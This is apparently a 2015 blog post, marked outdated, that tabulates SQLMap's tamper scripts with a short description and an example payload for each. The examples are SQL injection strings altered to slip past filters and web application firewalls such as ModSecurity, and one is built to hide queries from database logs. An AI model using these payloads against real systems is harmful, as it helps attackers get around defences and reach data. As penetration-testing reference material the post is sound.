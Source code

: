 +++
title = "SQLMap's Tamper Scripts"
date  = "2015-05-15"
tags  = ["sqli", "sqlmap"]
+++

THIS POST IS OUTDATED, PLEASE SEE LATEST VERSION [HERE]({{< ref "post/sqlmap-tamper-scripts-update.md" >}})

I've been playing with SQLMap a lot recently to automate all sorts of injections, something which isn't so well documented is the tamper scripts which come with it.

Here's a graph with short explanations of what each does, maybe someone will find it useful.

|                              |                                                                                                                                    |                                                                                                                                                                                                             |
|------------------------------|------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Name                         | Description                                                                                                                        | Example                                                                                                                                                                                                     |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                | '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'                                                                                                                                                                      |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          | '1 AND %271%27=%271'                                                                                                                                                                                        |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          | '1 AND 1=1'                                                                                                                                                                                                 |
| base64encode.py              | Base64 all characters in a given payload                                                                                           | 'MScgQU5EIFNMRUVQKDUpIw=='                                                                                                                                                                                  |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                    | '1 AND A NOT BETWEEN 0 AND B--'                                                                                                                                                                             |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator | 'SELECT%09id FROM users where id LIKE 1'                                                                                                                                                                    |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                              | '%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545'                                                                                       |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded)                                                     | '%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45'                                                                                                                                     |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)                                     | '%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045'                                                                |
| equaltolike.py               | Replaces all occurances of operator equal ('=') with operator 'LIKE'                                                               | 'SELECT * FROM users WHERE id LIKE 1'                                                                                                                                                                       |
| greatest.py                  | Replaces greater than operator ('>') with 'GREATEST' counterpart                                                                   | '1 AND GREATEST(A,B+1)=A'                                                                                                                                                                                   |
| halfversionedmorekeywords.py | Adds versioned MySQL comment before each keyword                                                                                   | "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |
| ifnull2ifisnull.py           | Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'                                                                  | 'IF(ISNULL(1),2,1)'                                                                                                                                                                                         |
| modsecurityversioned.py      | Embraces complete query with versioned comment                                                                                     | '1 /*!30874AND 2>1*/--'                                                                                                                                                                                     |
| modsecurityzeroversioned.py  | Embraces complete query with zero-versioned comment                                                                                | '1 /*!00000AND 2>1*/--'                                                                                                                                                                                     |
| multiplespaces.py            | Adds multiple spaces around SQL keywords                                                                                           | '1 UNION SELECT foobar'                                                                                                                                                                                     |
| nonrecursivereplacement.py   | Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace("SELECT", "")) filters               | '1 UNIOUNIONN SELESELECTCT 2--'                                                                                                                                                                             |
| percentage.py                | Adds a percentage sign ('%') infront of each character                                                                             | '%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E'                                                                                                                                                               |
| randomcase.py                | Replaces each keyword character with random case value                                                                             | 'INseRt'                                                                                                                                                                                                    |
| randomcomments.py            | Add random comments to SQL keywords                                                                                                | 'I/**/N/**/SERT'                                                                                                                                                                                            |
| securesphere.py              | Appends special crafted string                                                                                                     | "1 AND 1=1 and '0having'='0having'"                                                                                                                                                                         |
| sp_password.py               | Appends 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs                                           | '1 AND 9227=9227-- sp_password'                                                                                                                                                                             |
| space2comment.py             | Replaces space character (' ') with comments '/**/'                                                                                | 'SELECT/**/id/**/FROM/**/users'                                                                                                                                                                             |
| space2dash.py                | Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n')                        | '1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'                                                                                                                                                                 |
| space2hash.py                | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')                      | '1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227'                                                                                                                                                               |
| space2morehash.py            | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')                      | '1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227'                                                                                                                                                 |
| space2mssqlblank.py          | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%0Eid%0DFROM%07users'                                                                                                                                                                                |
| space2mssqlhash.py           | Replaces space character (' ') with a pound character ('#') followed by a new line ('\n')                                          | '1%23%0AAND%23%0A9227=9227'                                                                                                                                                                                 |
| space2mysqlblank.py          | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%A0id%0BFROM%0Cusers'                                                                                                                                                                                |
| space2mysqldash.py           | Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n')                                            | '1--%0AAND--%0A9227=9227'                                                                                                                                                                                   |
| space2plus.py                | Replaces space character (' ') with plus ('+')                                                                                     | 'SELECT+id+FROM+users'                                                                                                                                                                                      |
| space2randomblank.py         | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%0Did%0DFROM%0Ausers'                                                                                                                                                                                |
| unionalltounion.py           | Replaces UNION ALL SELECT with UNION SELECT                                                                                        | '-1 UNION SELECT'                                                                                                                                                                                           |
| unmagicquotes.py             | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work)             | '1%bf%27 AND 1=1-- '                                                                                                                                                                                        |
| versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment                                                                    | '1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'                                          |
| versionedmorekeywords.py     | Encloses each keyword with versioned MySQL comment                                                                                 | '1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#'            |
